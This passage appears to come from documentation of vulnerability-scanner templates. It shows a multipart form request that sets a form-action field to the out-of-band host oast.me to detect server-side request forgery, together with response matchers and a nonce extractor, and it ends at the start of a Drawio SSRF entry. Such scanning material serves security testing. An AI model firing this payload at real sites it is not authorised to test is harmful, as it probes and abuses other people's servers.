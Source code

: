 ```
Content-Disposition: form-data; name="post_id"

0
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="field_labels"

{"email":"Email address"}
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="hidden_field_names"

[]
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusionAction"

https://oast.me
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusionActionMethod"

GET
-----------------------------30259827232283860776499538268--

```

### Matchers

**Type - word**

- part - body_2
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

### Extractors

**Type - xpath**

- part - body_1
- name - fusionformnonce
- attribute - value
- xpath
  1. //\*[@id="fusion-form-nonce-0"]
- internal - True

---

# Drawio \< 18.1.2 - Server Side Request Forgery

## Description
